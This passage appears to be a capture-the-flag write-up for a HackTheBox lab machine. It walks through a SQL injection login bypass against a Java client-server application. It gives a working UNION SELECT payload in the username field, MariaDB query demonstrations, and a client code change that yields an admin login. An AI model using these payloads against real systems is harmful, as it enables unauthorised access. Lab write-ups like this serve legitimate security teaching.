The user-supplied password hash user.getPassword() is calculated as follows.

```java
sha256("' or '1'='1" + "' or '1'='1" + "clarabibimakeseverythingsecure") = cc421e01342afabdd4857e7a1db61d43010951c7d5269e075a029f5d192ee1c8
```

Although the hash sent to the server by the client doesn't match the one in the database, and the password comparison fails, the SQLi is still possible using UNION queries. Consider the following example.

```sql
MariaDB [userdb]> select * from users where username='john';
+----------+-------------+
| username | password    |
+----------+-------------+
| john     | password123 |
+----------+-------------+
```

It is possible to create fake entries using the SELECT operator. Input an invalid username to create a new user entry.

```sql
MariaDB [userdb]> select * from users where username='test' union select 'admin', 'welcome123';
+----------+-------------+
| username | password    |
+----------+-------------+
| admin    | welcome123  |
+----------+-------------+
```

Similarily, the injection in the username filed can be leveraged to create a fake user entry.

```sql
test' UNION SELECT 1,'invaliduser','invalid@a.b','invalidpass','admin
```

This way, the password, and the assigned role can be controlled. The following snippet of code sends the plaintext password entered in the form. Modify the code in htb/fatty/shared/resources/User.java to submit the password as it is from the client application.

```java
public User(int uid, String username, String password, String email, Role role) {
    this.uid = uid;
    this.username = username;
    this.password = password;
    this.email = email;
    this.role = role;
}
public void setPassword(String password) {
    this.password = password;
  }
```

You can now rebuild the JAR file and attempt to log in using the payload ```abc' UNION SELECT 1,'abc','a@b.com','abc','admin``` in the username field and the random text ```abc``` in the password field.

The server will eventually process the following query.

```sql
select id,username,email,password,role from users where username='abc' UNION SELECT 1,'abc','a@b.com','abc','admin'
```

The first select query fails, while the second returns valid user results with the role "admin" and the password "abc". The password sent to the server is also "abc", which results in a successful password comparison, and the application allows you to log in as the user "admin".